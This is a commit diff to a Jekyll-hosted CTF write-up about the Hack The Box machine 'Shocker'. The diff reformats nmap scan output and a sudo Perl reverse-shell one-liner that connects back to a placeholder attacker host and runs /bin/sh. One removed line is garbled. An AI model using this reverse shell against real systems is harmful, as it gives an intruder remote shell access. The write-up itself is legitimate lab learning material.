

Before and after one commit to ICMPofDED/ICMPofDED, a Jekyll site: the page built from Shocker.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update Shocker.md

````diff
--- a/Shocker.md
+++ b/Shocker.md
@@ -4,56 +4,56 @@ At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had los
 let's hit nmap first.
 
 `└──╼ $nmap -T4 -A -v 10.10.10.56`
+```
+Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
+NSE: Loaded 146 scripts for scanning.
+NSE: Script Pre-scanning.
+Initiating NSE at 07:17
+Completed NSE at 07:17, 0.00s elapsed
+Initiating NSE at 07:17
+Completed NSE at 07:17, 0.00s elapsed
+Initiating Ping Scan at 07:17
+Scanning 10.10.10.56 [2 ports]
+Completed Ping Scan at 07:17
+Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
+Initiating Connect Scan at 07:17
+Scanning 10.10.10.56 [1000 ports]
+Discovered open port 80/tcp on 10.10.10.56
+Discovered open port 2222/tcp on 10.10.10.56
+Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
+Initiating Service scan at 07:18
+Scanning 2 services on 10.10.10.56
+Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
+NSE: Script scanning 10.10.10.56.
+Initiating NSE at 07:18
+Completed NSE at 07:18, 10.10s elapsed
+Initiating NSE at 07:18
+Completed NSE at 07:18, 0.00s elapsed
+Nmap scan report for 10.10.10.56
+Host is up (0.42s latency).
+Not shown: 998 closed ports
+PORT     STATE SERVICE VERSION
+80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
+| http-methods:
+|_  Supported Methods: GET HEAD POST OPTIONS
+|_http-server-header: Apache/2.4.18 (Ubuntu)
+|_http-title: Site doesn't have a title (text/html).
+2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
+|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
+|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
->Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
->NSE: Loaded 146 scripts for scanning.
->NSE: Script Pre-scanning.
->Initiating NSE at 07:17
->Completed NSE at 07:17, 0.00s elapsed
->Initiating NSE at 07:17
->Completed NSE at 07:17, 0.00s elapsed
->Initiating Ping Scan at 07:17
->Scanning 10.10.10.56 [2 ports]
->Completed Ping Scan at 07:1qwdsc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ion of 1 host. at 07:17
->Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
->Initiating Connect Scan at 07:17
->Scanning 10.10.10.56 [1000 ports]
->Discovered open port 80/tcp on 10.10.10.56
->Discovered open port 2222/tcp on 10.10.10.56
->Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
->Initiating Service scan at 07:18
->Scanning 2 services on 10.10.10.56
->Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
->NSE: Script scanning 10.10.10.56.
->Initiating NSE at 07:18
->Completed NSE at 07:18, 10.10s elapsed
->Initiating NSE at 07:18
->Completed NSE at 07:18, 0.00s elapsed
->Nmap scan report for 10.10.10.56
->Host is up (0.42s latency).
->Not shown: 998 closed ports
->PORT     STATE SERVICE VERSION
->80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
->| http-methods:
->|_  Supported Methods: GET HEAD POST OPTIONS
->|_http-server-header: Apache/2.4.18 (Ubuntu)
->|_http-title: Site doesn't have a title (text/html).
->2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
->| ssh-hostkey:
->|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
->|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
->|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
->Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
->
->NSE: Script Post-scanning.
->Initiating NSE at 07:18
->Completed NSE at 07:18, 0.00s elapsed
->Initiating NSE at 07:18
->Completed NSE at 07:18, 0.00s elapsed
->Read data files from: /usr/bin/../share/nmap
->Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
->Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds
-
+NSE: Script Post-scanning.
+Initiating NSE at 07:18
+Completed NSE at 07:18, 0.00s elapsed
+Initiating NSE at 07:18
+Completed NSE at 07:18, 0.00s elapsed
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds
+```
 
 
 Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
@@ -96,7 +96,7 @@ Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)
 
 So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell:
 
-`sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
+```sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
 
 
 ![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)
````
